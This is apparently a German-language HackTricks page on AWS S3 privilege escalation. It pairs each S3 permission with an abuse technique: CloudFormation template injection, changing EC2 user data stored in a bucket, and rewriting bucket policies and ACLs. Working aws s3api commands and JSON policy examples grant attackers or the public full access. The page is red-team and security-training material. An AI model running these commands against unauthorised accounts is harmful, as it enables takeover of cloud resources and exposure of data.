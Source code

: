 # AWS - S3 Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

Ein Angreifer mit diesen Berechtigungen über interessante Buckets könnte in der Lage sein, Ressourcen zu übernehmen und Privilegien zu eskalieren.

Zum Beispiel wird ein Angreifer mit diesen **Berechtigungen über einen CloudFormation-Bucket** namens "cf-templates-nohnwfax6a6i-us-east-1" in der Lage sein, die Bereitstellung zu übernehmen. Der Zugriff kann mit der folgenden Richtlinie gewährt werden:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
Und die Übernahme ist möglich, weil es ein **kleines Zeitfenster vom Moment des Hochladens der Vorlage** in den Bucket bis zum Moment, in dem die **Vorlage bereitgestellt wird**, gibt. Ein Angreifer könnte einfach eine **Lambda-Funktion** in seinem Konto erstellen, die **ausgelöst wird, wenn eine Bucket-Benachrichtigung gesendet wird**, und **übernimmt** den **Inhalt** dieses **Buckets**.

![](<../../../.gitbook/assets/image (174).png>)

Das Pacu-Modul [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) kann verwendet werden, um diesen Angriff zu automatisieren.\
Für weitere Informationen siehe die ursprüngliche Forschung: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Dies sind die Berechtigungen, um **Objekte in S3 zu erhalten und hochzuladen**. Mehrere Dienste innerhalb von AWS (und außerhalb davon) verwenden S3-Speicher, um **Konfigurationsdateien** zu speichern.\
Ein Angreifer mit **Lesezugriff** auf diese könnte **sensible Informationen** darin finden.\
Ein Angreifer mit **Schreibzugriff** auf diese könnte **die Daten ändern, um einen Dienst auszunutzen und zu versuchen, Privilegien zu eskalieren**.\
Hier sind einige Beispiele:

* Wenn eine EC2-Instanz die **Benutzerdaten in einem S3-Bucket speichert**, könnte ein Angreifer diese ändern, um **beliebigen Code innerhalb der EC2-Instanz auszuführen**.

### `s3:PutBucketPolicy`

Ein Angreifer, der **aus demselben Konto** stammen muss, andernfalls wird der Fehler `Die angegebene Methode ist nicht erlaubt` ausgelöst, kann mit dieser Berechtigung sich selbst mehr Berechtigungen über den Bucket(s) gewähren, die es ihm ermöglichen, Buckets zu lesen, zu schreiben, zu ändern, zu löschen und offenzulegen.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Ein Angreifer könnte diese Berechtigungen missbrauchen, um **sich mehr Zugriff** auf bestimmte Buckets zu gewähren.\
Beachten Sie, dass der Angreifer nicht aus demselben Konto stammen muss. Darüber hinaus ist der Schreibzugriff
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Ein Angreifer könnte diese Berechtigungen ausnutzen, um sich mehr Zugriff auf bestimmte Objekte in Buckets zu gewähren.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Ein Angreifer mit diesen Berechtigungen wird erwartet, in der Lage zu sein, eine Acl für eine bestimmte Objektversion festzulegen.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
